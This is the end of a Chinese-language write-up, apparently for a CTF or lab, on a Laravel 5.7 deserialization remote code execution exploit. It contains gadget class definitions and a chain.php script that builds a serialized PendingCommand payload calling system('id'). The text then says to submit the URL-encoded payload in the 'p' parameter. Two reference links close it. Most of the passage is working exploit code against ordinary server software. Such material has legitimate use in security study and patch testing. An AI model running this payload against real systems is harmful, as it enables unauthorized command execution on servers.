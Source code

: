 
    namespace Illuminate\Foundation{
        class Application{
            protected $hasBeenBootstrapped = false;
            protected $bindings;

            public function __construct($bind){
                $this->bindings=$bind;
            }
        }
    }
    ?>
    <?php
    //chain.php
    include("gadgets.php");

    echo urlencode(serialize(new Illuminate\Foundation\Testing\PendingCommand("system",array('id'),new Illuminate\Auth\GenericUser(array("expectedOutput"=>array("0"=>"1"),"expectedQuestions"=>array("0"=>"1"))),new Illuminate\Foundation\Application(array("Illuminate\Contracts\Console\Kernel"=>array("concrete"=>"Illuminate\Foundation\Application"))))));
    ?>

运行chain.php文件即可得到payload，将payload传入p参数即可。

参考链接
--------

> https://laworigin.github.io/2019/02/21/laravelv5-7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96rce/
>
> https://xz.aliyun.com/t/5510\#toc-1
